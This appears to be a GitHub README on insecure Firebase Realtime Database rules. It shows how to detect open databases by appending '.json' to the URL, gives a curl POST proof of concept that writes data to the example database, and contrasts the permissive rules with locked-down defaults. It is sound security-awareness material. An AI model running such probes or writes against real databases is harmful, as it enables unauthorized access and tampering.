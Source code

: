 # Insecure-Firebase

### Allows both read and write

Add '.json' at the end of firebase database url if you see `null` or data in reponse that means the firebase database is insecure and anyone can read and write data in database.

For example: https://insecure-firebase.firebaseio.com/.json returns `null`


#### POC 
```
curl -X POST https://insecure-firebase.firebaseio.com/testing.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```
Now visit https://insecure-firebase.firebaseio.com/testing.json or https://insecure-firebase.firebaseio.com/.json

and you will see new data is added to database



## firebase configuration rules which leads to this vulnerability

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": true,
    ".write": true
  }
}
```
As you can see in the above configuration both read and write set to true which means anyone can read and write to
this firebase database, developer some times use this settings for testing purpose but letter forgets to change this
to only allow app users to read or write data.

## Default(secure) firebase rules configuration 

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": false,
    ".write": false
  }
}
```
